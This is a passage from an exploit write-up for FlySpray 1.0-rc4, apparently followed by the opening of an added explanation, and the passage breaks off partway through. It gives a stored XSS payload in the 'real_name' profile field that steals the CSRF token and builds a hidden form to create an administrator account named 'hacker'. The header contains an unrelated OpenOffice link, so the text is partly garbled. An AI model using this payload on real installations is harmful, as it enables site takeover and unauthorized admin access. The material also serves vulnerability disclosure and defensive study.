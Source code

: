
```bash
# Exploit Title: XSRF Stored FlySpray 1.0-rc4 (XSS2CSRF add admin account)
# Date: 19/04/2017
# Exploit Author: Cyril Vallicari / HTTPCS / ZIWIT
: https://www.openoffice.org
# Version: 1.0-rc4
# Tested on: Windows 7 x64 SP1 / Kali Linux


Description :

A vulnerability has been discovered in Flyspray , which can be
exploited by malicious people to conduct cross-site scripting attacks. Input
passed via the 'real_name' parameter to '/index.php?do=myprofile' is not
properly sanitised before being returned to the user. This can be exploited
to execute arbitrary HTML and script code in a user's browser session in
context of an affected site.

The script is executed on the parameter page AND on any page that allow the
user to put a comment.


This XSS vector allow to execute scripts to gather the CSRF token

and submit a form to create a new admin


Here's the script :

var tok = document.getElementsByName('csrftoken')[0].value;

var txt = '<form method="POST" id="hacked_form"
action="index.php?do=admin&area=newuser">'
txt += '<input type="hidden" name="action" value="admin.newuser"/>'
txt += '<input type="hidden" name="do" value="admin"/>'
txt += '<input type="hidden" name="area" value="newuser"/>'
txt += '<input type="hidden" name="user_name" value="hacker"/>'
txt += '<input type="hidden" name="csrftoken" value="' + tok + '"/>'
txt += '<input type="hidden" name="user_pass" value="12345678"/>'
txt += '<input type="hidden" name="user_pass2" value="12345678"/>'
```

**Explanation:**

This exploit takes advantage of vulnerabilities in FlySpray version 1.0-rc4, specifically a combination of **Cross-Site Scripting (XSS)** and **Cross-Site Request Forgery (CSRF)**, to add a new administrator to the application. Below is an explanation of how this exploit works and leverages weaknesses in the application.

**Problem Description:**

1. ### XSS (Cross-Site Scripting):
